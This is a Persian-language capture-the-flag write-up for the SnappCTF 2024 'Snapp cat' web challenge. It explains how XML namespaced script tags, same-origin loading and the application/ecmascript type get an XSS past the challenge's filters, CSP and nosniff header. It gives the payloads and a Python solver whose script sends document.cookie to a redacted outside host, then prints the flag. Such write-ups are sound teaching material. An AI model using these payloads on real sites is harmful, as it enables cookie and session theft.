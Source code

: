 ```yaml
---
tags:
  - Snapp CTF
  - SnappCTF-2024
  - XSS
  - CSP
  - Web
  - X-Content-Type-Options
  - Content-Type
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![b64.png](./b64.png)

</center>

## توضیح حل چالش

کد سرور توی این سوال به ما داده شده و ما میتونیم اونو دانلود کنیم:
```js
#!/usr/bin/env node
const express = require('express')

const app = express()

app.get('/',(req,res)=>{
	let ct = (req.query.ct || 'ct').toString()
	let buf = Buffer.from(((req.query.buf || btoa('?buf=base64str')).toString()),'base64')
	if(!/^[a-z/]+$/.test(ct) || /htm|javascript/i.test(ct)){
		return res.send('na')
	}
	
	if(/<[a-z]/i.test(buf)){
		return res.send('na')
	}	
	res.setHeader('Content-Type',ct)
	res.setHeader('X-Content-Type-Options','nosniff')
	res.setHeader('Content-Security-Policy',`default-src 'self';`)
	res.send(buf)
})

app.listen(8000)
```

همون طور که میبینین سرور از ما دوتا پارامتر (ct, buf) میگیره که ct همون content-type هستش و buf محتوایی هستش که سرور به ما برمیگردونه

قبل از اینکه سرور به ما دیتایی که داریم رو برگردونه ، یک سری ولیدیشن انجام میده مثلا ما نمیتونم از content type (text/html, text/javascript) استفاده کنیم و همینطور توی دیتایی که به عنوان buf بهش میدیم هم نمیتونیم از تگ های html استفاده کنیم

ولی بعد از چند تست و بررسی های content type هایی که میتونیم روش کد جاوااسکریپت اجرا کنیم با این ها مواجه شدم:

```
text/html
application/xhtml+xml
application/xml
text/xml
image/svg+xml
text/xsl
```

و تنها content type هایی که میتونیم استفاده کنیم: text/xml, text/xsl هستش که اینجا من از text/xml استفاده کردم

ولی یه مشکلی بود ، اینکه ما نمیتونیم از تگی استفاده کنیم که حرف اولش بین a-z | A-Z باشه. ولی بعد از سرچ زدن درباره xml متوجه شدم که ما میتونیم از _ (underline) استفاده کنیم به عنوان اسم تگ

پس payload ام شد این:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml">XSS</_:script>
```

ولی یه مشکلی بود که اصلا حواسم بهش نبود و اون هم content-security-policy بود که نمیزاشت ما از unsafe-inline استفاده کنیم و تنها کاری که میتونستیم اینجا بکنیم این بود که بیایم یک کد جاوااسکریپت از همین origin لوید کنیم

و خب این کار هم میشد با این حرکت انجام داد:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS"></_:script>
```

ولی باز هم یک مشکل بود که اون هدر X-Content-Type-Options بود. توی توضیحات این هدر تو سایت [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options) گفته شده که اگه ریکویستی که ما میزنیم ، content type اش با محتوایی که قراره لوید بشه فرق داشته باشه ریکویست بلاک میشه

برای مثال فرض کنین ما content-type رو بزاریم text/css ولی محتوایی که مرورگر لوید میکنه جاوااسکریپت باشه ، که توی این شرایط ریکویست ما بلافاصله بلاک میشه

خب ما نمیتونیم از text/javascript استفاده کنیم چون که قبلش چک میکنه که javascript توی ct نباشه ولی میتونیم از application/ecmascript استفاده کنیم و اینطوری میتونیم x-content-type-options رو دور بزنیم و XSS بگیریم

و در نهایت پیلود ما میشه:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS?ct=application/ecmascript"></_:script>
```

برای حل این سوال میتونین از کد زیر استفاده کنین

```python
import requests
import base64
import sys
import html

url = 'https://b64.spchallenge.ir/'

xss_pay = """window.location='https://REDACTED?flag=' + document.cookie"""
pa = "?buf=%s&ct=%s" % (base64.b64encode(xss_pay.encode()).decode(), "application/ecmascript")
p = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="%s"></_:script>""" % html.escape(pa)


buffer, ct = base64.b64encode(p.encode()).decode(), "text/xml"
d = requests.get(url, params={'buf':buffer, 'ct': ct})
print(d.url)
```

به جای REDACTED از آدرس سرور خودتون استفاده کنین و بعد از اجرای کد بالا بهتون یه آدرس میده که اون رو میتونین بدین به بات تا فلگ رو براتون بفرسته

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{9a952b93a0f0ad23304547c4de2025fb}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵